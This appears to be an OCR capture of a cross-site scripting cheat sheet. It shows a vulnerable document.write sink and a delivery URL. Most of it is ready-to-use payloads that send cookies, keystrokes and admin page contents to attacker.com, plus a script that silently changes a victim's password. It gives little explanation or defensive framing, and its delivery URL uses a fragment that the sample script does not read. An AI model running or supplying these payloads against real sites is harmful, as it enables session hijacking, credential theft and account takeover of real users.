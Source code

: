## DOM Sinks
JavaScript functions/properties that unsafely handle user input.

```html
## Unsafe/Unsanitized script
<script>
     let param = new URLSearchParams(location.search).get('input');
     document.write(param); // Vulnerable sink
 </script>
```

```
## Delivery system for payload which is in the input url parameter
https://site.com#input=<img src=1 onerror=alert(1)>

## The script above reads that, and writes this into the DOM without any sanitization
```


## Advanced Payloads
```html
## Session Hijacking:
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
   
## Keylogger:
<input onfocus=
document.addEventListener('keypress',e=>fetch('https://attacker.com/log?k='+e.key))>
</input>
```



# PRIVILEGE ESCALATION VIA XSS

## Admin Interface Targeting:
```html
## CSRF Token Theft:
<script>
fetch('/admin').then(r=>r.text()).then(d=>fetch('https://attacker.com/exfil?page='+encodeURIComponent(d)))
</script>
```


## Account Takeover Chains:
```html
##Password Change Exploit:
<script>
     fetch('/account/change-password', {
       method: 'POST',
       body: 'new_password=hacked&confirm=hacked'
     })
</script>
```
